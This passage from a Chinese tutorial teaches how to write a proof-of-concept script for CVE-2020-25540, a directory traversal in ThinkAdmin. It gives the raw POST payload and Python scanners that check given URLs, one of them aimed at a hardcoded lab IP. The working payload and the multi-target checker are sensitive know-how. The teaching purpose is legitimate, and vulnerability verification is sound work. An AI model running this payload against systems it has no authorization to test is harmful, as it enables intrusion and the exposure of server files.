这里的`POC`验证，我也就是从网上找了一个复现的过程，然后使用别人的`payload`来复现的，原本我们在编写的时候，就需要这个漏洞能够有一个完整的复现过程，只不过我们将这个复现的过程，从手工复现转换成脚本复现，尤其是在针对多个`URL`的时候，那么使用脚本就能够更好节约时间。

这里请求的是`Get`请求，但是我们需要将其修改成`POST`请求，而在我们编写脚本的时候，我们直接让其发送`POST`请求，这个道理是相同的，我们无法左右浏览器发送哪种类型的请求(插件不算)，那么我们就只能靠`burp`去修改，那么就完成了变更。

```python
payload：
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```



### 2.4.2. 编写`POC`

这里和`Get`请求的`POC`原理基本上是一致，依旧是使用burp插件将上面的内容同步下来，可以看到，在代码中`Post`请求比`Get`请求多了一个`data`参数。

而这个`data`参数中就是我们最后脚本运行的参数，例如如果我们是验证弱口令，那么`data`中就会是：`name：admin，password：admin`这些。

其它的和`Get`请求注释是一样的！

细心的应该看到在`burp`中`data`应该是一串编码，为什么到程序中编程了`[\"./\"]\r\n\r\n`，这里是采用了`url`编码，所以会导致变成了实体。

- `["` 和 `"]`：这是两个引号字符，通常用于字符串的开始和结束。但在这里，它们被用作字符串内容的一部分。
- `./`：这表示当前目录的路径。在文件系统中，`.` 代表当前目录，`/` 是目录分隔符。
- `\r\n`：这是回车和换行符的组合，常用于表示Windows系统中的一行结束。其中，`\r` 代表回车（Carriage Return），`\n` 代表换行（Line Feed）。
- `\r\n` 再次出现：与上面的解释相同，再次表示一行结束。

```python
import requests

url = "http://123.58.224.8:58779/admin.html?s=admin/api.Update/node"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
                 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                 "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                 "Accept-Encoding": "gzip, deflate, br",
                 "DNT": "1",
                 "Connection": "close",
                 "Content-Type": "application/x-www-form-urlencoded"}

data = {"rules": "[\"./\"]\r\n\r\n"}  ##["./"]

requests.post(url, headers=headers, data=data)
```

#### 2.4.2.1. 脚本美化

这里关于报错等，在前面都提到过了，所以这里就不在说了，直接上美化后的脚本。

```python
import argparse
import requests
import sys


def poc(url, port):
    payload = "/admin.html?s=admin/api.Update/node"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close",
               "Content-Type": "application/x-www-form-urlencoded"}
    data = {"rules": "[\"./\"]\r\n\r\n"}

    try:
        r = requests.post(url1, headers=headers, data=data, verify=False, timeout=5, allow_redirects=False)
        ##这里的判断条件我添加了多个，如果在编写过程中，拿不准的话，可以多添加几个判断条件
        if "code" in r.text and "info" in r.text:
            print(f"[+]{url}存在CVE-2020-25540目录遍历漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-25540目录遍历漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
     .::   .::         .::.::::::::                                  
 .::   .:: .::       .:: .::             .:::.:     .::      .:::.: 
.::         .::     .::  .::            .:    .:  .::  .::  .:    .:
.::          .::   .::   .::::::  .:::::    .:: .::     .::     .:: 
.::           .:: .::    .::              .::   .::      .::  .::   
 .::   .::     .::::     .::            .::      .::    .:: .::     
   .::::        .::      .::::::::      .:::::::   .:::     .:::::::
                                                                    
                                                                    
    .::            .:::.: .:: .::: .:: .:::       .::       .::     
  .::  .::        .:    .:.::      .::          . .::     .::  .::  
.::     .:: .:::::    .:: .:::     .:::        .: .::   .::     .:: 
.::      .::        .::       .::      .::   .::  .::   .::      .::
 .::    .::       .::           .::      .::.:::: .: .:: .::    .:: 
   .:::           .:::::::.::: .:: .::: .::       .::      .:::     
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```

#### 2.4.2.2. 脚本测试

这里我就不细细的测试了，你们可以编写完，自己去测试一下。



# 3. 总结

整体来说`POC`编写是没那么复杂的，主要需要你先复现一遍漏洞流程，在复现过程中提取响应页面中唯一性内容用作比较，然后根据不同的异常结果做好相应的处理机制。

同时由于关于`POST`请求的`POC`多数都属于`EXP`了，那么关于`EXP`的编写我们下章再介绍，其实`EXP`和`POC`基本上写的方式是一样的，只是`EXP`可能会涉及到一些较为复杂的机制，例如文件上传，通过`GET`请求就可以测试是否存在文件上传，但是上传文件的时候，可能就需要`POST`请求了，同时脚本返回的信息，`dnslog`返回的信息等等。

并且，后续如何将`POC`与`EXP`写在一起，怎么多联动判断用户输入的想`POC`还是EXP，所以对与新手可能会复杂一点。